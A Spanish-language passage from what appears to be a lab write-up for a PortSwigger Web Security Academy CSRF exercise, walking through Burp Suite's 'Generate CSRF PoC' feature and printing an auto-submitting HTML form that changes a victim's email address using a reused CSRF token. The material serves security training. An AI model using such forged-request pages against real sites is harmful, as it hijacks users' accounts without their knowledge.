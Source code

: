 Ahora realizamos lo mismo que en el ejemplo anterior. 

```
Entonces, lo que haremos será ir de nuevo, a la seccion de cambiar la contraseña e interceptar el paquete.

Y luego le damos clic derecho en **Engagement tools** y luego en **Generate CSRF PoC**. Luego reemplazamos el token CSRF, luego en options clic en **Include auto-submit script**, clic en regenerate y en copy HTML.
```

Entonces obtenemos el siguiente codigo html.

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac4f1f601fb90c4a8021091a00f800a2.web-security-academy.net/email/change-email" method="POST">
      <input type="hidden" name="email" value="a&#64;a&#46;a" />
      <input type="hidden" name="csrf" value="yda9ZQLTDugPFtoh582JFbAmi2oAf67l" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Y lo enviamos en el Exploit Server.

![](img71.png)

![](img72.png)
